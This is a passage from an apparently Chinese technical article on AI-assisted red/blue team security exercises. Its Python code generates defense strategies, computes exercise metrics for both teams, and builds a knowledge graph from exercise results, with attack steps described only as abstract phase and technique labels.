    def _generate_expected_outcome(self, actions: List[DefenseAction]) -> str:
        """生成预期结果"""
        avg_effectiveness = np.mean([a.effectiveness for a in actions])
        if avg_effectiveness >= 0.9:
            return "威胁将被有效遏制，业务影响最小化"
        elif avg_effectiveness >= 0.75:
            return "威胁将得到控制，但可能存在一定业务影响"
        else:
            return "威胁可能部分残留，建议持续监控"

    def _calculate_strategy_risk(self, actions: List[DefenseAction]) -> float:
        """计算策略风险"""
        max_risk = 0.0
        for action in actions:
            if action.side_effects:
                risk_contribution = len(action.side_effects) * 0.15
                max_risk = max(max_risk, risk_contribution)

        return min(1.0, max_risk)

    def _calculate_confidence(
        self,
        actions: List[DefenseAction],
        context: ThreatContext
    ) -> float:
        """计算策略置信度"""
        avg_effectiveness = np.mean([a.effectiveness for a in actions])

        technique_match = 0.0
        for technique in context.attack_techniques:
            if technique in str(self.action_outcome_history):
                historical_outcomes = self.action_outcome_history[technique]
                technique_match += np.mean(historical_outcomes)

        if context.attack_techniques:
            technique_match /= len(context.attack_techniques)

        confidence = 0.6 * avg_effectiveness + 0.4 * technique_match
        return min(1.0, max(0.0, confidence))

    def _get_timestamp(self) -> str:
        """获取时间戳"""
        from datetime import datetime
        return datetime.now().strftime("%Y-%m-%d %H:%M:%S")

    def optimize_strategy_with_rl(
        self,
        initial_strategy: DefenseStrategy,
        feedback: Dict[str, float],
        iterations: int = 10
    ) -> DefenseStrategy:
        """使用强化学习优化防御策略"""
        optimized = initial_strategy

        for iteration in range(iterations):
            current_score = self._evaluate_strategy(optimized, feedback)

            best_improvement = 0
            best_modification = None

            for i, action in enumerate(optimized.actions):
                alternative_actions = self._find_alternative_actions(action)
                for alt_action in alternative_actions:
                    modified_actions = optimized.actions.copy()
                    modified_actions[i] = alt_action

                    modified_strategy = DefenseStrategy(
                        strategy_id=f"{optimized.strategy_id}_opt{i}",
                        name=optimized.name,
                        description=optimized.description,
                        threat_scenario=optimized.threat_scenario,
                        threat_level=optimized.threat_level,
                        actions=modified_actions,
                        expected_outcome=optimized.expected_outcome,
                        risk_score=optimized.risk_score,
                        estimated_cost=optimized.estimated_cost,
                        confidence_score=optimized.confidence_score,
                        generated_timestamp=self._get_timestamp()
                    )

                    modified_score = self._evaluate_strategy(modified_strategy, feedback)

                    if modified_score > current_score + best_improvement:
                        best_improvement = modified_score - current_score
                        best_modification = modified_strategy

            if best_modification:
                optimized = best_modification
            else:
                break

        return optimized

    def _evaluate_strategy(
        self,
        strategy: DefenseStrategy,
        feedback: Dict[str, float]
    ) -> float:
        """评估策略得分"""
        effectiveness_score = np.mean([a.effectiveness for a in strategy.actions])

        cost_penalty = strategy.estimated_cost * 0.1

        risk_penalty = strategy.risk_score * 0.2

        feedback_bonus = sum(feedback.values()) / len(feedback) if feedback else 0

        score = (
            effectiveness_score * 0.4 +
            (1 - cost_penalty) * 0.2 +
            (1 - risk_penalty) * 0.2 +
            feedback_bonus * 0.2
        )

        return max(0, min(1, score))

    def _find_alternative_actions(self, original: DefenseAction) -> List[DefenseAction]:
        """寻找替代动作"""
        alternatives = []
        for action in self.ACTION_LIBRARY.values():
            if action.action_type == original.action_type:
                if action.action_id != original.action_id:
                    alternatives.append(action)
        return alternatives


def demo_defense_strategy_generator():
    """演示防御策略生成系统"""

    print("\n" + "="*70)
    print("AI蓝队防御策略智能生成系统 - 演示")
    print("="*70)

    generator = DefenseStrategyGenerator()

    mock_threat_context = ThreatContext(
        threat_id="THR-20260427-001",
        threat_type="apt_attack",
        source_ip="192.168.1.100",
        target_assets=["web_server_01", "db_server_01", "file_server_01"],
        attack_techniques=["T1190", "T1059", "T1547", "T1021"],
        threat_level=ThreatLevel.HIGH,
        indicators={
            "anomalous_login": True,
            "unusual_port_access": True,
            "privilege_escalation": True
        },
        related_alerts=["ALC-001", "ALC-002", "ALC-003"],
        contextual_factors={
            "is_business_hours": True,
            "target_is_critical": True
        }
    )

    print(f"\n生成防御策略...")
    print(f"威胁ID: {mock_threat_context.threat_id}")
    print(f"威胁类型: {mock_threat_context.threat_type}")
    print(f"威胁等级: {mock_threat_context.threat_level.name}")
    print(f"目标资产: {', '.join(mock_threat_context.target_assets)}")

    strategy = generator.generate_strategy(mock_threat_context)

    print(f"\n生成策略ID: {strategy.strategy_id}")
    print(f"策略名称: {strategy.name}")
    print(f"策略描述: {strategy.description}")
    print(f"风险评分: {strategy.risk_score:.2f}")
    print(f"置信度: {strategy.confidence_score:.2f}")

    print(f"\n防御动作:")
    for i, action in enumerate(strategy.actions):
        print(f"  [{i+1}] {action.name} ({action.action_type.value})")
        print(f"      有效性: {action.effectiveness:.2f}")
        print(f"      执行时间: {action.execution_time_seconds}秒")
        print(f"      副作用: {', '.join(action.side_effects) if action.side_effects else '无'}")

    feedback = {
        "action_1_effectiveness": 0.9,
        "action_2_effectiveness": 0.85,
        "user_satisfaction": 0.8
    }

    print(f"\n强化学习优化...")
    optimized_strategy = generator.optimize_strategy_with_rl(
        strategy,
        feedback,
        iterations=5
    )
    print(f"优化后策略ID: {optimized_strategy.strategy_id}")
    print(f"优化后动作数: {len(optimized_strategy.actions)}")


if __name__ == "__main__":
    demo_defense_strategy_generator()
```

## 四、演练指标体系：实时监控与量化评估

### 4.1 演练指标体系设计原则

演练指标体系是红蓝演练效果评估的基础。一个好的指标体系应当满足以下原则：

**全面性**——指标应当覆盖演练的各个环节，从攻击准备到防御响应，从技术手段到组织流程。

**客观性**——指标应当基于可量化采集的数据，避免主观评分带来的偏差。

**实时性**——指标应当能够实时计算和展示，支持演练过程中的动态监控。

**可操作性**——指标应当易于理解和解释，便于演练各方基于指标进行改进。

**可比性**——指标应当支持跨演练、跨组织的比较，形成基准参考。

### 4.2 多维度演练指标体系

基于上述原则，我们设计了覆盖红蓝双方的四层演练指标体系：



### 4.3 演练指标实时监控与评估系统

以下是实时演练监控与评估系统的完整实现：

```python
"""
演练指标实时监控与评估系统
Exercise Metrics Real-time Monitoring and Evaluation System

核心功能：
1. 多维度指标实时采集
2. 攻防态势实时评估
3. 演练进度跟踪
4. 结果可视化
"""

import numpy as np
from datetime import datetime, timedelta
from typing import Dict, List, Tuple, Optional, Any
from dataclasses import dataclass, field, asdict
from enum import Enum
import json
import heapq


class AlertSeverity(Enum):
    """告警严重级别"""
    CRITICAL = 1
    HIGH = 2
    MEDIUM = 3
    LOW = 4
    INFO = 5


@dataclass
class AttackStepRecord:
    """攻击步骤记录"""
    step_id: str
    attack_id: str
    phase: str
    technique: str
    start_time: datetime
    end_time: Optional[datetime] = None
    status: str = "IN_PROGRESS"
    success: bool = False
    detection_status: str = "UNDETECTED"
    detection_time: Optional[datetime] = None
    blocked: bool = False
    metadata: Dict[str, Any] = field(default_factory=dict)


@dataclass
class DefenseActionRecord:
    """防御动作记录"""
    action_id: str
    defense_id: str
    action_type: str
    target_asset: str
    trigger_event: str
    start_time: datetime
    end_time: Optional[datetime] = None
    status: str = "EXECUTING"
    effectiveness: float = 0.0
    false_positive: bool = False
    metadata: Dict[str, Any] = field(default_factory=dict)


@dataclass
class ExerciseMetrics:
    """演练指标数据"""
    metrics_id: str
    exercise_id: str
    timestamp: datetime

    red_team_metrics: Dict[str, float] = field(default_factory=dict)
    blue_team_metrics: Dict[str, float] = field(default_factory=dict)
    interaction_metrics: Dict[str, float] = field(default_factory=dict)
    overall_metrics: Dict[str, float] = field(default_factory=dict)


class MetricsCollector:
    """
    演练指标采集器
    从多个数据源实时采集演练指标
    """

    def __init__(self, exercise_id: str):
        self.exercise_id = exercise_id
        self.attack_records: List[AttackStepRecord] = []
        self.defense_records: List[DefenseActionRecord] = []
        self.alert_records: List[Dict] = []
        self.event_log: List[Dict] = []
        self.start_time = datetime.now()

    def record_attack_step(self, record: AttackStepRecord):
        """记录攻击步骤"""
        self.attack_records.append(record)
        self._log_event("ATTACK_STEP", {
            "step_id": record.step_id,
            "technique": record.technique,
            "status": record.status
        })

    def record_defense_action(self, record: DefenseActionRecord):
        """记录防御动作"""
        self.defense_records.append(record)
        self._log_event("DEFENSE_ACTION", {
            "action_id": record.action_id,
            "action_type": record.action_type,
            "effectiveness": record.effectiveness
        })

    def record_alert(self, alert: Dict):
        """记录告警"""
        self.alert_records.append(alert)
        self._log_event("ALERT", {
            "alert_id": alert.get("id"),
            "severity": alert.get("severity")
        })

    def _log_event(self, event_type: str, event_data: Dict):
        """记录事件"""
        self.event_log.append({
            "type": event_type,
            "data": event_data,
            "timestamp": datetime.now().isoformat()
        })

    def get_elapsed_time(self) -> float:
        """获取已用时间（分钟）"""
        return (datetime.now() - self.start_time).total_seconds() / 60


class MetricsCalculator:
    """
    演练指标计算引擎
    基于采集的数据计算各类演练指标
    """

    def __init__(self, collector: MetricsCollector):
        self.collector = collector

    def calculate_red_team_metrics(self) -> Dict[str, float]:
        """计算红队指标"""
        records = self.collector.attack_records
        if not records:
            return {}

        total_steps = len(records)
        successful_steps = sum(1 for r in records if r.success)
        detected_steps = sum(1 for r in records if r.detection_status != "UNDETECTED")
        blocked_steps = sum(1 for r in records if r.blocked)

        attack_success_rate = successful_steps / total_steps if total_steps > 0 else 0
        detection_rate = detected_steps / total_steps if total_steps > 0 else 0
        block_rate = blocked_steps / total_steps if total_steps > 0 else 0
        stealth_score = 1 - detection_rate

        completed_steps = [r for r in records if r.end_time]
        if completed_steps:
            avg_step_duration = np.mean([
                (r.end_time - r.start_time).total_seconds() / 60
                for r in completed_steps
            ])
        else:
            avg_step_duration = 0

        return {
            "total_attack_steps": total_steps,
            "successful_steps": successful_steps,
            "detected_steps": detected_steps,
            "blocked_steps": blocked_steps,
            "attack_success_rate": round(attack_success_rate, 4),
            "detection_rate": round(detection_rate, 4),
            "block_rate": round(block_rate, 4),
            "stealth_score": round(stealth_score, 4),
            "avg_step_duration_minutes": round(avg_step_duration, 2)
        }

    def calculate_blue_team_metrics(self) -> Dict[str, float]:
        """计算蓝队指标"""
        records = self.collector.defense_records
        if not records:
            return {}

        total_actions = len(records)
        effective_actions = sum(1 for r in records if r.effectiveness >= 0.7)
        false_positives = sum(1 for r in records if r.false_positive)
        completed_actions = [r for r in records if r.end_time]

        response_rate = effective_actions / total_actions if total_actions > 0 else 0
        false_positive_rate = false_positives / total_actions if total_actions > 0 else 0

        if completed_actions:
            response_times = [
                (r.end_time - r.start_time).total_seconds()
                for r in completed_actions
            ]
            avg_response_time = np.mean(response_times)
        else:
            avg_response_time = 0

        alerts = self.collector.alert_records
        critical_alerts = sum(1 for a in alerts if a.get("severity") == "CRITICAL")
        high_alerts = sum(1 for a in alerts if a.get("severity") == "HIGH")
        total_alerts = len(alerts)

        return {
            "total_defense_actions": total_actions,
            "effective_actions": effective_actions,
            "false_positives": false_positives,
            "response_rate": round(response_rate, 4),
            "false_positive_rate": round(false_positive_rate, 4),
            "avg_response_time_seconds": round(avg_response_time, 2),
            "critical_alerts": critical_alerts,
            "high_alerts": high_alerts,
            "total_alerts": total_alerts
        }

    def calculate_interaction_metrics(self) -> Dict[str, float]:
        """计算攻防交互指标"""
        attack_records = self.collector.attack_records
        defense_records = self.collector.defense_records

        if not attack_records:
            return {}

        attack_count = len(attack_records)
        defense_count = len(defense_records)

        blocked_attacks = sum(1 for a in attack_records if a.blocked)
        defended_attacks = sum(1 for a in attack_records if a.detection_status == "BLOCKED_BY_DEFENSE")

        defense_coverage = (blocked_attacks + defended_attacks) / attack_count if attack_count > 0 else 0

        ad_ratio = defense_count / attack_count if attack_count > 0 else 0

        return {
            "total_attacks": attack_count,
            "total_defenses": defense_count,
            "attack_defense_ratio": round(ad_ratio, 2),
            "blocked_attacks": blocked_attacks,
            "defended_attacks": defended_attacks,
            "defense_coverage": round(defense_coverage, 4)
        }

    def calculate_overall_metrics(self) -> Dict[str, float]:
        """计算综合指标"""
        red = self.calculate_red_team_metrics()
        blue = self.calculate_blue_team_metrics()
        interaction = self.calculate_interaction_metrics()

        if not red or not blue:
            return {}

        red_effectiveness = red.get("attack_success_rate", 0) * red.get("stealth_score", 0)
        blue_effectiveness = blue.get("response_rate", 0) * (1 - blue.get("false_positive_rate", 0))

        attack_defense_balance = 1 - abs(red_effectiveness - blue_effectiveness)

        overall_score = (
            0.30 * red_effectiveness +
            0.30 * blue_effectiveness +
            0.20 * attack_defense_balance +
            0.20 * interaction.get("defense_coverage", 0)
        )

        return {
            "red_team_effectiveness": round(red_effectiveness, 4),
            "blue_team_effectiveness": round(blue_effectiveness, 4),
            "attack_defense_balance": round(attack_defense_balance, 4),
            "overall_exercise_score": round(overall_score, 4),
            "exercise_maturity_level": self._calculate_maturity_level(overall_score)
        }

    def _calculate_maturity_level(self, score: float) -> str:
        """计算演练成熟度等级"""
        if score >= 0.9:
            return "LEVEL_5_OPTIMIZED"
        elif score >= 0.8:
            return "LEVEL_4_MANAGED"
        elif score >= 0.6:
            return "LEVEL_3_DEFINED"
        elif score >= 0.4:
            return "LEVEL_2_DEVELOPING"
        else:
            return "LEVEL_1_INITIAL"

    def calculate_all_metrics(self) -> ExerciseMetrics:
        """计算所有指标"""
        return ExerciseMetrics(
            metrics_id=f"MET-{datetime.now().strftime('%Y%m%d%H%M%S')}",
            exercise_id=self.collector.exercise_id,
            timestamp=datetime.now(),
            red_team_metrics=self.calculate_red_team_metrics(),
            blue_team_metrics=self.calculate_blue_team_metrics(),
            interaction_metrics=self.calculate_interaction_metrics(),
            overall_metrics=self.calculate_overall_metrics()
        )


class RealTimeMetricsMonitor:
    """
    实时指标监控器
    提供实时指标流和告警功能
    """

    def __init__(self, exercise_id: str):
        self.exercise_id = exercise_id
        self.collector = MetricsCollector(exercise_id)
        self.calculator = MetricsCalculator(self.collector)
        self.thresholds = self._init_thresholds()
        self.alerts: List[Dict] = []

    def _init_thresholds(self) -> Dict[str, float]:
        """初始化告警阈值"""
        return {
            "attack_success_rate_high": 0.8,
            "detection_rate_low": 0.3,
            "false_positive_rate_high": 0.4,
            "response_time_exceeded": 120,
            "threat_level_critical": 0.9
        }

    def record_attack(self, attack_data: Dict):
        """记录攻击事件"""
        start_time = datetime.fromisoformat(attack_data.get("start_time", datetime.now().isoformat()))
        record = AttackStepRecord(
            step_id=attack_data.get("step_id"),
            attack_id=attack_data.get("attack_id"),
            phase=attack_data.get("phase"),
            technique=attack_data.get("technique"),
            start_time=start_time,
            end_time=datetime.fromisoformat(attack_data["end_time"]) if attack_data.get("end_time") else None,
            status=attack_data.get("status", "COMPLETED"),
            success=attack_data.get("success", False),
            detection_status=attack_data.get("detection_status", "UNDETECTED"),
            blocked=attack_data.get("blocked", False)
        )
        self.collector.record_attack_step(record)

    def record_defense(self, defense_data: Dict):
        """记录防御事件"""
        start_time = datetime.fromisoformat(defense_data.get("start_time", datetime.now().isoformat()))
        record = DefenseActionRecord(
            action_id=defense_data.get("action_id"),
            defense_id=defense_data.get("defense_id"),
            action_type=defense_data.get("action_type"),
            target_asset=defense_data.get("target_asset"),
            trigger_event=defense_data.get("trigger_event"),
            start_time=start_time,
            end_time=datetime.fromisoformat(defense_data["end_time"]) if defense_data.get("end_time") else None,
            status=defense_data.get("status", "COMPLETED"),
            effectiveness=defense_data.get("effectiveness", 0.0),
            false_positive=defense_data.get("false_positive", False)
        )
        self.collector.record_defense_action(record)

    def record_alert(self, alert_data: Dict):
        """记录告警"""
        self.collector.record_alert(alert_data)

    def get_current_metrics(self) -> ExerciseMetrics:
        """获取当前指标"""
        return self.calculator.calculate_all_metrics()

    def generate_dashboard_data(self) -> Dict[str, Any]:
        """生成仪表盘数据"""
        metrics = self.get_current_metrics()
        elapsed = self.collector.get_elapsed_time()

        red_metrics = metrics.red_team_metrics
        blue_metrics = metrics.blue_team_metrics
        overall_metrics = metrics.overall_metrics

        attack_progress = red_metrics.get("total_attack_steps", 0) / 20.0
        defense_progress = blue_metrics.get("total_defense_actions", 0) / 15.0

        threat_level = (
            red_metrics.get("attack_success_rate", 0) *
            red_metrics.get("detection_rate", 0)
        )

        return {
            "exercise_id": self.exercise_id,
            "current_time": datetime.now().isoformat(),
            "elapsed_minutes": round(elapsed, 2),
            "exercise_progress": {
                "attack": f"{min(1.0, attack_progress):.1%}",
                "defense": f"{min(1.0, defense_progress):.1%}"
            },
            "threat_level": {
                "current": f"{threat_level:.1%}",
                "status": self._get_threat_status(threat_level)
            },
            "overall_score": f"{overall_metrics.get('overall_exercise_score', 0):.1%}",
            "maturity_level": overall_metrics.get("exercise_maturity_level", "UNKNOWN"),
            "red_team": {
                "effectiveness": f"{red_metrics.get('red_team_effectiveness', 0):.1%}",
                "success_rate": f"{red_metrics.get('attack_success_rate', 0):.1%}",
                "stealth_score": f"{red_metrics.get('stealth_score', 0):.1%}"
            },
            "blue_team": {
                "effectiveness": f"{blue_metrics.get('blue_team_effectiveness', 0):.1%}",
                "response_rate": f"{blue_metrics.get('response_rate', 0):.1%}",
                "false_positive_rate": f"{blue_metrics.get('false_positive_rate', 0):.1%}"
            },
            "active_alerts": self.alerts[-5:]
        }

    def _get_threat_status(self, threat_level: float) -> str:
        """获取威胁状态描述"""
        if threat_level >= 0.8:
            return "CRITICAL"
        elif threat_level >= 0.6:
            return "HIGH"
        elif threat_level >= 0.4:
            return "MEDIUM"
        elif threat_level >= 0.2:
            return "LOW"
        else:
            return "MINIMAL"


def demo_metrics_system():
    """演示演练指标监控系统"""

    print("\n" + "="*70)
    print("演练指标实时监控与评估系统 - 演示")
    print("="*70)

    monitor = RealTimeMetricsMonitor("EX-2026-0427-001")

    print("\n模拟演练数据注入...")

    attack_scenarios = [
        {"phase": "reconnaissance", "technique": "网络侦察"},
        {"phase": "initial_access", "technique": "钓鱼攻击"},
        {"phase": "execution", "technique": "恶意脚本执行"},
        {"phase": "persistence", "technique": "建立后门"},
        {"phase": "privilege_escalation", "technique": "权限提升"},
        {"phase": "lateral_movement", "technique": "横向移动"},
        {"phase": "collection", "technique": "数据收集"},
        {"phase": "exfiltration", "technique": "数据外带"}
    ]

    for i, scenario in enumerate(attack_scenarios):
        attack_data = {
            "step_id": f"ATT-{i+1:03d}",
            "attack_id": f"ATK-{i+1:03d}",
            "phase": scenario["phase"],
            "technique": scenario["technique"],
            "start_time": (datetime.now() - timedelta(minutes=60-i*5)).isoformat(),
            "end_time": (datetime.now() - timedelta(minutes=55-i*5)).isoformat(),
            "status": "COMPLETED",
            "success": i < 6,
            "detection_status": "DETECTED" if i in [1, 3, 5] else "UNDETECTED",
            "blocked": i == 4
        }
        monitor.record_attack(attack_data)

        if i in [1, 2, 4, 6]:
            defense_data = {
                "action_id": f"DEF-{i+1:03d}",
                "defense_id": f"DFN-{i+1:03d}",
                "action_type": ["isolate", "block", "monitor", "collect"][i % 4],
                "target_asset": "target_system",
                "trigger_event": f"alert_{i+1}",
                "start_time": (datetime.now() - timedelta(minutes=56-i*5)).isoformat(),
                "end_time": (datetime.now() - timedelta(minutes=54-i*5)).isoformat(),
                "status": "COMPLETED",
                "effectiveness": [0.9, 0.8, 0.7, 0.85][i % 4],
                "false_positive": i == 2
            }
            monitor.record_defense(defense_data)

    print("\n计算当前指标...")
    dashboard = monitor.generate_dashboard_data()

    print(f"\n演练ID: {dashboard['exercise_id']}")
    print(f"已用时间: {dashboard['elapsed_minutes']:.2f}分钟")
    print(f"演练进度: 攻击 {dashboard['exercise_progress']['attack']}, 防御 {dashboard['exercise_progress']['defense']}")
    print(f"威胁等级: {dashboard['threat_level']['current']} ({dashboard['threat_level']['status']})")
    print(f"综合评分: {dashboard['overall_score']}")
    print(f"成熟度等级: {dashboard['maturity_level']}")

    print(f"\n红队效能:")
    print(f"  攻击成功率: {dashboard['red_team']['success_rate']}")
    print(f"  隐蔽评分: {dashboard['red_team']['stealth_score']}")

    print(f"\n蓝队效能:")
    print(f"  响应率: {dashboard['blue_team']['response_rate']}")
    print(f"  误报率: {dashboard['blue_team']['false_positive_rate']}")


if __name__ == "__main__":
    demo_metrics_system()
```

## 五、演练结果知识沉淀机制

### 5.1 知识沉淀的理论框架

红蓝演练的核心价值不仅在于发现当前的问题，更在于将演练过程中积累的经验和知识转化为组织的安全能力提升。传统的演练结果通常以报告形式存档，缺乏系统性的知识管理和复用机制。我们设计的知识沉淀机制旨在将每次演练转化为可持续使用的知识资产。

知识沉淀机制包含三个核心环节：**知识抽取**——从演练数据中自动提取结构化知识；**知识融合**——将新知识与现有知识库整合；**知识应用**——支持知识的检索、推理和应用。



### 5.2 演练知识图谱构建

以下是演练结果知识沉淀系统的核心实现：

```python
"""
演练结果知识沉淀系统
Exercise Results Knowledge Precipitation System

核心功能：
1. 演练知识自动抽取
2. 知识图谱构建与更新
3. 知识检索与推理
4. 智能化知识应用
"""

import json
import numpy as np
from datetime import datetime
from typing import Dict, List, Tuple, Optional, Any, Set
from dataclasses import dataclass, field
from enum import Enum
from collections import defaultdict


class KnowledgeType(Enum):
    """知识类型枚举"""
    ATTACK_TECHNIQUE = "攻击技术知识"
    DEFENSE_STRATEGY = "防御策略知识"
    VULNERABILITY = "漏洞知识"
    ATTACK_PATTERN = "攻击模式知识"
    RESPONSE_PLAYBOOK = "响应手册知识"
    LESSON_LEARNED = "经验教训知识"


class ConfidenceLevel(Enum):
    """置信度等级"""
    HIGH = "高置信度"
    MEDIUM = "中置信度"
    LOW = "低置信度"


@dataclass
class KnowledgeEntity:
    """知识实体"""
    entity_id: str
    entity_type: KnowledgeType
    name: str
    description: str
    attributes: Dict[str, Any] = field(default_factory=dict)
    source_exercise_id: str = ""
    extraction_timestamp: str = ""
    confidence: ConfidenceLevel = ConfidenceLevel.MEDIUM
    usage_count: int = 0
    last_used: Optional[str] = None


@dataclass
class KnowledgeRelation:
    """知识关系"""
    relation_id: str
    source_entity_id: str
    target_entity_id: str
    relation_type: str
    relation_strength: float = 1.0
    bidirectional: bool = False
    extracted_from: str = ""
    extraction_timestamp: str = ""


class KnowledgeExtractor:
    """
    演练知识自动抽取器
    从演练数据中自动提取结构化知识
    """

    def __init__(self):
        self.extraction_rules = self._init_extraction_rules()

    def _init_extraction_rules(self) -> Dict:
        """初始化抽取规则"""
        return {
            "attack_technique": {
                "indicators": ["technique", "attack_method", "attack_vector"],
                "extraction_patterns": [
                    r"攻击技术[:：]\s*(.+?)[。\n]",
                    r"使用(.+?)进行攻击"
                ]
            },
            "defense_strategy": {
                "indicators": ["defense", "response", "mitigation"],
                "extraction_patterns": [
                    r"防御策略[:：]\s*(.+?)[。\n]",
                    r"采用(.+?)防御"
                ]
            }
        }

    def extract_knowledge_from_exercise(
        self,
        exercise_data: Dict,
        attack_records: List[Dict],
        defense_records: List[Dict]
    ) -> Tuple[List[KnowledgeEntity], List[KnowledgeRelation]]:
        """从演练数据中抽取知识"""
        entities = []
        relations = []

        for attack in attack_records:
            attack_entities, attack_relations = self._extract_attack_knowledge(
                attack, exercise_data["exercise_id"]
            )
            entities.extend(attack_entities)
            relations.extend(attack_relations)

        for defense in defense_records:
            defense_entities, defense_relations = self._extract_defense_knowledge(
                defense, exercise_data["exercise_id"]
            )
            entities.extend(defense_entities)
            relations.extend(defense_relations)

        return entities, relations

    def _extract_attack_knowledge(
        self,
        attack: Dict,
        exercise_id: str
    ) -> Tuple[List[KnowledgeEntity], List[KnowledgeRelation]]:
        """抽取攻击知识"""
        entities = []
        relations = []

        technique_entity = KnowledgeEntity(
            entity_id=f"K-ATT-{hash(attack['technique']) % 10000:04d}",
            entity_type=KnowledgeType.ATTACK_TECHNIQUE,
            name=attack.get("technique", "Unknown Technique"),
            description=self._generate_technique_description(attack),
            attributes={
                "phase": attack.get("phase"),
                "success": attack.get("success", False),
                "detection_status": attack.get("detection_status"),
                "stealth_level": attack.get("stealth_score", 0.5)
            },
            source_exercise_id=exercise_id,
            extraction_timestamp=datetime.now().isoformat(),
            confidence=self._assess_confidence(attack, "attack")
        )
        entities.append(technique_entity)

        return entities, relations

    def _extract_defense_knowledge(
        self,
        defense: Dict,
        exercise_id: str
    ) -> Tuple[List[KnowledgeEntity], List[KnowledgeRelation]]:
        """抽取防御知识"""
        entities = []
        relations = []

        strategy_entity = KnowledgeEntity(
            entity_id=f"K-DEF-{hash(defense['action_type']) % 10000:04d}",
            entity_type=KnowledgeType.DEFENSE_STRATEGY,
            name=defense.get("action_type", "Unknown Action"),
            description=self._generate_defense_description(defense),
            attributes={
                "effectiveness": defense.get("effectiveness", 0),
                "false_positive": defense.get("false_positive", False)
            },
            source_exercise_id=exercise_id,
            extraction_timestamp=datetime.now().isoformat(),
            confidence=self._assess_confidence(defense, "defense")
        )
        entities.append(strategy_entity)

        return entities, relations

    def _generate_technique_description(self, attack: Dict) -> str:
        """生成技术描述"""
        desc = f"攻击技术: {attack.get('technique', 'Unknown')}"
        if attack.get("phase"):
            desc += f", 攻击阶段: {attack['phase']}"
        if attack.get("success"):
            desc += ", 攻击结果: 成功"
        else:
            desc += ", 攻击结果: 失败/被阻止"
        return desc

    def _generate_defense_description(self, defense: Dict) -> str:
        """生成防御描述"""
        desc = f"防御动作: {defense.get('action_type', 'Unknown')}"
        desc += f", 有效性: {defense.get('effectiveness', 0):.2f}"
        if defense.get("false_positive"):
            desc += ", 存在误报"
        return desc

    def _assess_confidence(
        self,
        record: Dict,
        record_type: str
    ) -> ConfidenceLevel:
        """评估置信度"""
        if record_type == "attack":
            if record.get("success") and record.get("detection_status"):
                return ConfidenceLevel.HIGH
            elif record.get("success") or record.get("detection_status"):
                return ConfidenceLevel.MEDIUM
            else:
                return ConfidenceLevel.LOW
        else:
            if record.get("effectiveness", 0) >= 0.8:
                return ConfidenceLevel.HIGH
            elif record.get("effectiveness", 0) >= 0.5:
                return ConfidenceLevel.MEDIUM
            else:
                return ConfidenceLevel.LOW


class KnowledgeGraphManager:
    """
    知识图谱管理器
    构建和管理演练知识图谱
    """

    def __init__(self):
        self.entities: Dict[str, KnowledgeEntity] = {}
        self.relations: Dict[str, KnowledgeRelation] = {}
        self.entity_index: Dict[KnowledgeType, List[str]] = defaultdict(list)
        self.relation_graph: Dict[str, Set[str]] = defaultdict(set)

    def add_entity(self, entity: KnowledgeEntity):
        """添加知识实体"""
        self.entities[entity.entity_id] = entity
        self.entity_index[entity.entity_type].append(entity.entity_id)
        self.relation_graph[entity.entity_id] = set()

    def add_relation(self, relation: KnowledgeRelation):
        """添加知识关系"""
        self.relations[relation.relation_id] = relation
        self.relation_graph[relation.source_entity_id].add(relation.target_entity_id)
        if relation.bidirectional:
            self.relation_graph[relation.target_entity_id].add(relation.source_entity_id)

    def merge_knowledge(
        self,
        new_entities: List[KnowledgeEntity],
        new_relations: List[KnowledgeRelation]
    ):
        """合并新知识"""
        for entity in new_entities:
            existing = self._find_similar_entity(entity)
            if existing:
                self._update_entity(existing, entity)
            else:
                self.add_entity(entity)

        for relation in new_relations:
            if not self._relation_exists(relation):
                self.add_relation(relation)

    def _find_similar_entity(self, entity: KnowledgeEntity) -> Optional[str]:
        """查找相似实体"""
        for existing_id, existing in self.entities.items():
            if existing.entity_type != entity.entity_type:
                continue
            if existing.name == entity.name:
                return existing_id
        return None

    def _update_entity(
        self,
        existing_id: str,
        new_entity: KnowledgeEntity
    ):
        """更新已有实体"""
        existing = self.entities[existing_id]

        for key, value in new_entity.attributes.items():
            if key not in existing.attributes:
                existing.attributes[key] = value
            elif isinstance(value, (int, float)) and isinstance(existing.attributes[key], (int, float)):
                existing.attributes[key] = (existing.attributes[key] + value) / 2

        existing.usage_count += 1
        existing.last_used = datetime.now().isoformat()

    def _relation_exists(self, relation: KnowledgeRelation) -> bool:
        """检查关系是否存在"""
        for existing in self.relations.values():
            if (existing.source_entity_id == relation.source_entity_id and
                existing.target_entity_id == relation.target_entity_id and
                existing.relation_type == relation.relation_type):
                return True
        return False

    def search_knowledge(
        self,
        query: str,
        knowledge_type: Optional[KnowledgeType] = None
    ) -> List[KnowledgeEntity]:
        """搜索知识"""
        results = []
        query_lower = query.lower()

        for entity_id, entity in self.entities.items():
            if knowledge_type and entity.entity_type != knowledge_type:
                continue

            if (query_lower in entity.name.lower() or
                query_lower in entity.description.lower()):
                results.append(entity)

        results.sort(key=lambda e: e.usage_count, reverse=True)
        return results

    def recommend_defense_for_attack(
        self,
        attack_technique: str
    ) -> List[KnowledgeEntity]:
        """根据攻击技术推荐防御策略"""
        attack_entities = self.search_knowledge(
            attack_technique,
            KnowledgeType.ATTACK_TECHNIQUE
        )

        if not attack_entities:
            return []

        recommended_defenses = []
        for attack_entity in attack_entities:
            for relation_id, relation in self.relations.items():
                if relation.source_entity_id == attack_entity.entity_id:
                    target_entity = self.entities.get(relation.target_entity_id)
                    if target_entity:
                        recommended_defenses.append(target_entity)

        return recommended_defenses[:5]

    def export_knowledge_graph(self) -> Dict:
        """导出知识图谱"""
        return {
            "entities": [
                {
                    "entity_id": e.entity_id,
                    "type": e.entity_type.value,
                    "name": e.name,
                    "description": e.description,
                    "attributes": e.attributes,
                    "confidence": e.confidence.value,
                    "usage_count": e.usage_count
                }
                for e in self.entities.values()
            ],
            "relations": [
                {
                    "relation_id": r.relation_id,
                    "source": r.source_entity_id,
                    "target": r.target_entity_id,
                    "type": r.relation_type,
                    "strength": r.relation_strength
                }
                for r in self.relations.values()
            ],
            "export_timestamp": datetime.now().isoformat()
        }


def demo_knowledge_precipitation():
    """演示知识沉淀系统"""

    print("\n" + "="*70)
    print("演练结果知识沉淀系统 - 演示")
    print("="*70)

    extractor = KnowledgeExtractor()

    exercise_data = {
        "exercise_id": "EX-2026-0427-001",
        "title": "企业内网APT攻防演练",
        "date": "2026-04-27"
    }

    attack_records = [
        {"technique": "钓鱼攻击", "phase": "initial_access", "success": True,
         "detection_status": "DETECTED", "stealth_score": 0.6},
        {"technique": "恶意脚本执行", "phase": "execution", "success": True,
         "detection_status": "UNDETECTED", "stealth_score": 0.8},
